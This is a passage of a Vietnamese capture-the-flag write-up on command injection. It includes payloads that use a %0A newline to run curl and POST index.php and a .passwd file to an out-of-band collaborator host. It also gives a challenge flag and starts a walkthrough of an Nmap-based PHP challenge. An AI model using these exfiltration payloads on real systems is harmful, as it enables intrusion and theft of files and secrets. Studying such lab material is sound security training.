 ```
Bây giờ ta sẽ tìm xem kí tự ngắt lệnh nào có thể dùng được bằng cách thử intruder payload list mình được sau đây [link](https://github.com/payloadbox/command-injection-payload-list)

Step 1 : 

![image](https://hackmd.io/_uploads/B1IaHFp_6.png)

Step 2 : 

![image](https://hackmd.io/_uploads/SJv_SY6up.png)

Step 3 : 

![image](https://hackmd.io/_uploads/SyA5BKad6.png)

Step 4 : 

![image](https://hackmd.io/_uploads/S1nMLKa_p.png)

Ta tìm được kí tự `%0A` có thể dùng được , bây giờ ta chỉ việc inject để lấy source của file index.php thông qua kĩ thuật out-of-band bằng burp collaborator , payload như sau : 

`ip=127.0.0.1%0A curl -X POST -d @index.php fgzjsa8pu1q0ztb44niutkcvjmpdd51u.oastify.com`

> Kí tự @ dùng để gửi file

Kết quả : 

![image](https://hackmd.io/_uploads/S1R8mKT_a.png)

Và trong source ghi flag nằm ở file `.passwd`, bây giờ ta chỉ cần đọc file `.passwd` là xong : 

``ip=127.0.0.1%0A curl -X POST -d @./.passwd fgzjsa8pu1q0ztb44niutkcvjmpdd51u.oastify.com``


Kết quả :  

![image](https://hackmd.io/_uploads/BypeEtpuT.png)

`Flag : Comma@nd_1nJec7ion_Fl@9_1337_Th3_G@m3!!!`

# V. BuuCTF 

## [[网鼎杯 2020 朱雀组]Nmap1](https://buuoj.cn/challenges#[%E7%BD%91%E9%BC%8E%E6%9D%AF%202020%20%E6%9C%B1%E9%9B%80%E7%BB%84]Nmap)

![image](https://hackmd.io/_uploads/ByENBdfF6.png)


Bài này mình sẽ write up lại dưới hình thức whitebox , cách hoạt động của chall như sau : 

```php    
<?php
define('RESULTS_PATH', 'xml/');
define('NMAP_ARGS', '-Pn -T4 -F --host-timeout 1000ms');

if (isset($_POST['host'])) {

    $host = $_POST['host'];

    if (stripos($host, 'php') !== false) {
        die("Hacker...");
    }
```